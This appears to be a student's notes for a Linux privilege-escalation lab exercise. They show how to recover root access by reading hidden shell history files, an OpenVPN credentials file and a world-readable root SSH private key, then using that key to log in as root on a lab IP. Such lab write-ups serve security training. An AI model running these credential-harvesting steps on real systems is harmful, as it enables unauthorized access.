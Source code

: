 




## task 16 : passwords & keys 

If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

View the contents of all the hidden history files in the user's home directory:

```
cat ~/.*history | less

mysql -h somehost.local -uroot -ppassword123

su root
```


```
ls /home/user

cat /home/user/myvpn.ovpn

auth-user-pass /etc/openvpn/auth.txt

cat /etc/openvpn/auth.txt

root
password123

su root
```



```
ls -la /

ls -l /.ssh

-rw-r--r-- 1 root root 1679 Aug 25  2019 root_key

cd /.ssh
ls
cat root_key

copy & paste in root-key

chmod 600

ssh -i root-key root@

ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.101.10
```
